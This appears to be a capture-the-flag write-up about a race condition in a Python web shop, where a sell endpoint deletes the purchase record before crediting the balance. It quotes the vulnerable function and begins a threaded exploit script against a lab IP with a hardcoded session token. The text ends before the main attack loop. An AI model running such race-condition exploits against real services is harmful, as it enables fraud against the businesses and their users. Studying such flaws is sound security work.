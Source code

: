 There actually isn't any vulnerability in the *source code* of this web application, the vulnerability lies in the implementation. The web application is a multi threaded, using shared resource, without any locking (or similar) methods for the shared resource. Let's have a look at the `sell` function.

```py
    @db.connection_context()
    def sell(token: str, purchase_id: int) -> (bool, str):

        purchase_history_objs = PurchaseLog.select().where(PurchaseLog.id == purchase_id)
        if len(purchase_history_objs) == 0: return False, "Product does not exist"

        purchase_history_obj = purchase_history_objs[0]
        user_objs = User.select().where(User.token == token)

        if len(user_objs) == 0: return False, "Invalid User Token"

        user_obj = user_objs[0]
        if purchase_history_obj.user_id != user_obj.id: return False, "You did not make this purchase"

        # We could have a more complex table... or we can just delete the log -_-
        PurchaseLog.delete().where(PurchaseLog.id == purchase_history_obj.id).execute()

        User.update(balance=user_obj.balance + purchase_history_obj.paid_amount) \
            .where(User.id == user_obj.id) \
            .execute()

        return True, ""
```

We can see that the item is sold before the users balance is updated. Had the application been single threaded this would not be a problem, as nothing would use the shared resource in between requests, however it is multi threaded meaning different threads may alter the shared resource without alerting the other threads. This presents us with a race condition, due to the time between the item being sold and the balance being updated, that an adversary could make an unexpected change.

### Exploitation

To exploit this, we can write a Python script to automate the process of sending buy and sell requests. We want to send significantly more sell requests than buys, and hopefully this will cause the application to sell 2+ of the same item, giving us (at least) twice the amount of money than the products value.

I grabbed the session token and hard coded that into my script, then Python's threading module to barrage the web server will sell requests, while occasionally sending a buy request. 


```py
#!/bin/python3
from requests import post, get
import threading
from time import sleep

token = "ae889bdb-20e8-42f5-af0f-c96d4e3d8074"
url = "http://172.20.0.2:5000"

def buy(token):
  return post(f"{url}/buy/1", cookies={"token": token})

def sell(token):
  id = find_id(token)
  return post(f"{url}/sell/{id}", cookies={"token": token})
  
def find_id(token):
  body = get(url, cookies={"token": token}).text
  return body.split("<form action=\"/sell/")[1].split("\" method=\"post\">")[0] 
```